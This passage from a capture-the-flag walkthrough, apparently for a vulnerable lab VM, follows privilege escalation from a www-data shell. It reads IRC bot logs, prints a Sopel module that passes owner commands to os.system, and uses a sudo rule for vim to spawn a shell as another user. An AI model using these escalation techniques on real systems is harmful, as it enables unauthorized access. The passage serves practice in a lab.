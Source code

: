 You'll also notice that there are no channels to join, I kept going through the `/home` directory till I found `/home/wallaby/.sopel/logs/raw.log`, which mentions a channel called `#wallabyschat`!

```console
www-data@ubuntu:/home/wallaby/.sopel/logs$ cat raw.log | grep "#"
>>1481932041.885489 JOIN #wallabyschat
```

After you join it (using `/join #wallabyschat`) you'll see user waldo and wallabysbot.


[![](http://i.imgur.com/kAUCk1b.png)](http://i.imgur.com/kAUCk1b.png)


Neither waldo nor the bot will talk to you, so I went through the logs again and found that the bot responds to `.help` command.

```
<wallabysbot> You can see more info about any of these commands by doing .help <command> (e.g. .help time)
<wallabysbot> ADMIN         set  quit  join  mode  msg  me  save  part
<wallabysbot> ADMINCHANNEL  kickban  showmask  ban  topic  quiet  kick  tmask
<wallabysbot>               unquiet  unban
<wallabysbot> ANNOUNCE      announce
<wallabysbot> CORETASKS     blocks  useserviceauth
<wallabysbot> HELP          help
<wallabysbot> RUN           run
```

One interesting command is `.run` command only runs for waldo. After some digging I found that the script responsible for this is the `run.py` file under `/home/wallaby/.sopel/modules`.

```python
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')
```

You need to kick out waldo so you can use its nick and let the bot run commands as wallaby. How do we do that? Remember the vim command in `sudo -l`?

```console
www-data@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
www-data@ubuntu:/$ sudo -u waldo usr/bin/vim /etc/apache2/sites-available/000-default.conf
fault.confldo usr/bin/vim /etc/apache2/sites-available/000-de
```
Next, type `:!bash`
